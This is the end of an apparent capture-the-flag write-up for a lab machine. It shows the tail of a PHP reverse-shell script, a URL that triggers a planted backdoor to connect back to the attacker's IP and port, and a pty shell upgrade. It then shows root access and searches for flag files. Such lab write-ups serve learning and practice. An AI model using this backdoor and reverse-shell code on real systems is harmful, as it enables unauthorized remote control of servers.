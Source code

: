 ```
stream_set_blocking($sock, 0);

while(1)
{
    if(feof($sock) || feof($pipes[1])) break;
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    if(in_array($sock, $read_a)) { $i = fread($sock, 1400); fwrite($pipes[0], $i); }
    if(in_array($pipes[1], $read_a)) { $i = fread($pipes[1], 1400); fwrite($sock, $i); }
    if(in_array($pipes[2], $read_a)) { $i = fread($pipes[2], 1400); fwrite($sock, $i); }
}

fclose($sock);
for($x=0;$x<=2;$x++) fclose($pipes[x]);
proc_close($proc);
?>
```
🚩 Prometeus means this backdoor? 🤔

![image](https://user-images.githubusercontent.com/6504854/193459996-3eae9de3-6eeb-48ff-96fd-f14a44049654.png)

```
http://10.10.101.205/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php?ip=YOURIP&port=2222
```
🚩 fill in the password and set parameter.

```
python3 -c 'import pty; pty.spawn("/bin/bash")';

id
uid=0(root) gid=0(root) groups=0(root),33(www-data),7777(web)

cat /root/root.flag

find /etc -type f | xargs grep flag{ 2>/dev/null
find /etc -type f | xargs grep flag{ 2>/dev/null
/etc/ssl/private/.b0nus.fl4g:flag{Y***************!}
```

㊗️㊗️㊗️ Thank you for your time, Happy Hacking 😄


